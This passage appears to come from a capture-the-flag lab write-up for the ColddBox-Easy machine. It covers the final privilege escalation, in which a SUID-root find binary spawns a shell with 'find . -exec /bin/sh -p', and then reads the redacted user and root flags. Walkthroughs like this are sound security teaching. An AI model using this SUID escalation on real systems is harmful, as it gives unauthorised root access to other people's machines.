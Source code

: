 /usr/local/lib/python3.5
/usr/local/lib/python3.5/dist-packages
/usr/local/share/xml
/usr/local/share/xml/schema
/usr/local/share/xml/misc
/usr/local/share/xml/entities
/usr/local/share/xml/declaration
/usr/local/share/sgml
/usr/local/share/sgml/stylesheet
/usr/local/share/sgml/misc
/usr/local/share/sgml/entities
/usr/local/share/sgml/dtd
/usr/local/share/sgml/declaration
/run/log/journal
/run/log/journal/4e84be335e192a0537e302dd5f6cb171
/sbin/pam_extrausers_chkpwd
/sbin/unix_chkpwd
{% endhighlight %}

### PRIV_ESC
***
<br>
This is a way to escalate priviliges. It can be found on [GTFOBins](https://gtfobins.github.io/gtfobins/find/) site
{% highlight bash startinline=true %}
-rwsr-xr-x 1 root root 221768 Feb  8  2016 /usr/bin/find
www-data@ColddBox-Easy:/var/www/html/wp-admin$ which find
/usr/bin/find

{% endhighlight %}

#### Root (Done this Box)
***
{% highlight sh %}
www-data@ColddBox-Easy:/var/www/html/wp-admin$ find . -exec /bin/sh -p \; -quit

# id 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cat /home/c0ldd/user.txt
RmVsaWNpZGFk********************lbCBjb25zZWd1aWRvIQ== <==REDACTED
# cat /root/root.txt
wqFGZWxpY2lkY*******************bmEgY29tcGxldGFkYSE=  <==REDACTED

{% endhighlight %}
***